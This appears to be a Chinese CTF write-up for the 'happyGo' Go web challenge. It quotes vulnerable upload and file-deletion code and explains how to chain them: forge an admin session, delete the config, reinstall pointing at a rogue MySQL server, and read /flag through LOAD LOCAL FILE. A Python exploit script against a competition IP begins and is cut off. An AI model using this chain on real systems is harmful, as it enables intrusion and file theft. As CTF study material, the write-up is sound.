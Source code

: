 
## happyGo

继续代码审计 233  
题目说 flag 在 /flag, 而看了一圈并没有任意文件读取之类的.  
但是这里注意到 `model.go` 中的 `orm.RegisterDataBase("default", "mysql", fmt.Sprintf("%s:%s@tcp(%s:%s)/%s?allowAllFiles=true", username, password, host, port, database))`
中的 `allowAllFiles=true`, 这允许我们 `LOAD LOCAL FILE`, 这里就要谈到一种攻击方式,  大家可以看[这里](http://aq.mk/index.php/archives/23/)  
接下来就要想办法覆盖掉配置文件, 让服务端连接我们的恶意服务器  

第一个漏洞点在 `userinfo.go`,  
```go
c.SaveToFile("uploadname", "static/uploads/" + h.Filename)

o := orm.NewOrm()
u := models.Users{Id: uid.(int)}

err = o.Read(&u)
if err != nil {
    c.Abort("500")
}
u.Avatar = "/static/uploads/" + h.Filename
_, err = o.Update(&u)
if err != nil {
    c.Abort("500")
}

c.Redirect("/userinfo", http.StatusFound)
```

这里 Filename 没有过滤就直接拼接上去, 导致可以任意文件上传,  
将位置设到 session 保存的目录底下, 就可以伪造 session 拿到管理员权限. (不了解的同学可以去了解一下 gogs 的 RCE)  
PS. 这里直接覆盖 app.conf 没有用... 估计服务端的源码另外修改过  

而且管理员在删除用户时会直接删掉这个头像文件,  

```
if user.Avatar != "/static/img/avatar.jpg" {
    fmt.Println(user.Avatar)
    err := os.Remove(user.Avatar[1:])
    fmt.Println(err)
}
```

这里我的方法是再建一个用户, 将头像设成 app.conf 所在路径, 用管理员权限的 session 删掉这个用户, 这时配置文件将会被删除.  
再去访问 `/install`, 就可以把我们的配置文件写进去了.  

因为 5min 就重置一次, 我就写了个脚本  

```python
SERVER = "http://94.191.10.201:7000"
# http://94.191.10.201:7000
# http://127.0.0.1:9999

import requests
import string
import random
import bs4
import re


def register(username, password):
    sess = requests.session()
    sess.get(f"{SERVER}/auth")
    data = {
        "username": username,
```